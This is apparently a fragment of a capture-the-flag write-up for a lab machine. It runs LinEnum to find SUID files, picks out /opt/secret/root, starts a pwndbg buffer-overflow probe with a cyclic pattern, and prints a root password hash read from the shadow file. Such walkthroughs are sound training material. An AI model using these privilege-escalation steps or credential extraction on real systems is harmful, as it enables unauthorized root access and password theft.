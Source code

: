             kali@kali:~/Downloads$ scp LinEnum.sh pingu@10.10.210.94:/tmp
            pingu@10.10.210.94's password: 
            
            pingu@ubuntu:/tmp$ chmod +x LinEnum.sh 
            pingu@ubuntu:/tmp$ ./LinEnum.sh 
            [-] SUID files:
            -r-sr-xr-x 1 root papa 7516 Jan 16  2020 /opt/secret/root
            -rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
            -rwsr-xr-x 1 root root 10624 May  8  2018 /usr/bin/vmware-user-suid-wrapper
            -rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
            -rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
            -rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
            -rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
            -rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
            -rwsr-xr-x 1 root root 428240 Mar  4  2019 /usr/lib/openssh/ssh-keysign
            -rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
            -rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-   helper
            -rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
            -rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
            -rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
            -rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
            -rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
            -rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
            -rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount

1) What is the interesting path of the interesting suid file
   
    **/opt/secret/root**
                
**Task 7 (pwndbg)**
            
            pingu@ubuntu:~$ gdb /opt/secret/root
            GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
            Copyright (C) 2016 Free Software Foundation, Inc.
            License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
            This is free software: you are free to change and redistribute it.
            There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
            and "show warranty" for details.
            This GDB was configured as "x86_64-linux-gnu".
            Type "show configuration" for configuration details.
            For bug reporting instructions, please see:
            <http://www.gnu.org/software/gdb/bugs/>.
            Find the GDB manual and other documentation resources online at:
            <http://www.gnu.org/software/gdb/documentation/>.
            For help, type "help".
            Type "apropos word" to search for commands related to "word"...
            pwndbg: loaded 178 commands. Type pwndbg [filter] for a list.
            pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
            Reading symbols from /opt/secret/root...(no debugging symbols found)...done.
            pwndbg> r < <(cyclic 50)   

**Task 10 (Finishing the job)**
 
               root:$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYto
               F1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:18277:0:99999:7:::
               